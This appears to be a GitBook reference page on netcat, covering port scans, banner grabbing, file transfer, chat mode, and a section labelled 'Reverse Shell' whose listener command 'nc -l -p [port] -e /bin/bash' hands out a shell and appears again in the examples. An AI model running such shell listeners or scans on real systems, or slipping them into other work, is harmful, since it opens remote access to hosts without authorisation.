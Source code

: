 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Netcat

Netcat, or `nc`, serves as a versatile command-line utility for port scanning, allowing users to check the availability of services on a target system.

* **Basic TCP Port Scan:**

```bash
nc -zv [hostname] [start-port]-[end-port]
```

&#x20;Conducts a basic TCP port scan on the specified hostname within a defined port range, revealing open ports.

*   **UDP Port Scan:**

    ```bash
    nc -uzv [hostname] [start-port]-[end-port]
    ```

    Performs a UDP port scan on the specified hostname within a defined port range, identifying open UDP ports.

**Banner Grabbing:**

*   **Retrieve Service Banner:**

    ```bash
    nc -v [hostname] [port]
    ```

    Connects to the specified port on the target system, displaying information from the service banner for identification.

**TCP Connection Test:**

*   **Full TCP Connection Test:**

    ```bash
    nc -v [hostname] [port]
    ```

    Initiates a full TCP connection to the specified port, providing detailed connection information.

**Reverse Shell:**

*   **Set up Reverse Shell (Listener):**

    ```bash
    nc -l -p [port] -e /bin/bash
    ```

    Sets up netcat as a listener, waiting for an incoming connection and spawning a shell on successful connection.
*   **Initiate Reverse Shell (Initiator):**

    ```bash
    nc [listener-hostname] [port]
    ```

    Initiates a connection to a netcat listener, potentially providing remote shell access.

**File Transfer:**

*   **Receive File (TCP):**

    ```bash
    nc -l -p [port] > [output-file]
    ```

    Listens on a specified port for incoming data and saves it to a file, useful for receiving files via TCP.
*   **Send File (TCP):**

    ```bash
    nc [receiver-hostname] [port] < [input-file]
    ```

    Connects to a netcat listener and sends the contents of a file to the receiver via TCP.

**Chat Mode (Two-way Communication):**

*   **Initiate Chat Mode (TCP):**

    ```bash
    nc -l -p [port]   # On one terminal
    nc [hostname] [port]  # On another terminal
    ```

    Enables a simple chat mode for exchanging data between two terminals using TCP.

**Summary:**

```bash
Usage: nc [options] [hostname] [port]
```

**Options:**

* `-l`: Listen mode, for inbound connects
* `-p port`: Specify source port to use
* `-e command`: Execute command after connect
* `-s addr`: Local source address
* `-v`: Verbose
* `-w timeout`: Connect timeout
* `-z`: Zero-I/O mode (scanning but sends no data)
* `-u`: UDP mode (unreliable since many firewalls drop ICMP packets).
* `-o file`: hex dump file of traffic

**Examples:**

* `nc -l -p 1234`: Listen on port 1234 for incoming connections
* `nc -l -p 1234 -e /bin/bash`: Listen on port 1234 and execute /bin/bash on incoming connection
* `nc -v -z example.com 80-100`: Perform a verbose port scan on example.com from ports 80 to 100

{% hint style="info" %}
&#x20;Netcat supports both TCP and UDP connections. The `-z` flag makes it operate in scanning mode, while the `-u` flag specifies UDP. The `-e` flag allows execution of a specified command upon connection.
{% endhint %}

**Resources:**

* [https://nmap.org/ncat/](https://nmap.org/ncat/)
